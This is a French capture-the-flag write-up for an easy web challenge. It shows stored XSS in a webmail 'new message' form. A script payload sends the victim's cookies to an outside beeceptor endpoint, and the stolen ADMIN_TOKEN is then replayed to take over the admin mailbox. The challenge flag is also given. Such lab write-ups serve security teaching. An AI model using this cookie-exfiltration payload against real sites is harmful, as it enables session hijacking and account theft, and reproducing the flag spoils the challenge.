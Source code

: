 # Du bazar dans la cuisine !

## Difficulté : facile

### Description :

Des rumeurs bizzares courrent à propos de Télécook, nous t'avons envoyé un mail à propos.
Connecte-toi sur <url_xss>, tu y trouveras toutes les informations nécessaires.

### Analyse

Nous sommes en face d'un challenge de web. L'interface peut sembler complexe à première vue mais au final, on se rend compte que l'on a accès qu'à seulement trois pages : la boîte de réception, celle des mails envoyés et la page pour envoyer un mail.

La page de réception semble n'être utile que pour nous donner des informations, nous ne pouvons pas intéragir avec, à part pour lire les messages. On y apprend cependant que l'on doit se connecter en tant qu'utilisateur Télécook, dont nous avons l'adresse mail `telecook@telecom-paris.fr` grâce à un mail qu'ils nous ont gentilment envoyé. On constate aussi que des balises HTML sont utilisées. Peut être, est-il possible d'insérer du code HTML (et javascript?) dans nos mails.

La page boîte d'envoi ne semble pas utile pour le moment, mais elle servira sûrement à voir les messages que nous avons envoyé, et pourquoi pas tester nos payloads ;)

Enfin, la page *Nouveau message* semble la plus intéressante. On peut envoyer des emails et il s'agit surtout du seul point d'entrée pour des attaques ! On aurait aussi pu noter le champ **id** de la requête GET, mais on constate vite qu'il n'y a pas d'injections possibles. De plus, le nom du challenge nous met directement sur la piste des cookies.

On teste alors un payload simple afin de voir si une XSS est présente.
```html
<script>alert('XSS?')</script>
```
Lorsque nous retournons sur notre page boîte d'envoi, nous avons bien notre mail, et si nous cliquons dessus, une fenêtre apparaît !

Plus qu'à forger le bon payload

### Exploitation

A l'aide d'un endpoint par exemple, https://imphackt.free.beeceptor.com nous allons récupérer une requête envoyée par télécook.
Nous devons pour cela le rediriger vers notre endpoint en passant en paramètres ses cookies. Cela donne par exemple:
```html
<script>document.location.replace('https://imphackt.free.beeceptor.com?cookie=' + document.cookie)</script>
```
On envoie et quelques minutes plus tard, on reçoit une conexion sur notre endpoint avec en paramètres de délicieux cookies dont un attire particulièrement notre attention: `ADMIN_TOKEN=T3LeC0oK_5uP3R_Co0K1e!!!`

On rajoute le dit cookie à notre navigateur (sous firefox shift+F9 puis +) en prenant garde à ce qu'il soit valide sur tout le site, on recharge, et magie ! nous voilà sur la boîte de télécook.

On regarde les mails et un mail envoyé nous donne une recette, qui ressemble étrangement à un flag.

Il faudrait faire
$$CTF101\left\{ md5(viande + oignon + 2 * tomate)\right\}$$

Après ce simple calcul, nous avons enfin notre flag :)

### Solution

flag: CTF101{ea138e0e3c9ca3193ebf6a4e66cefaa9}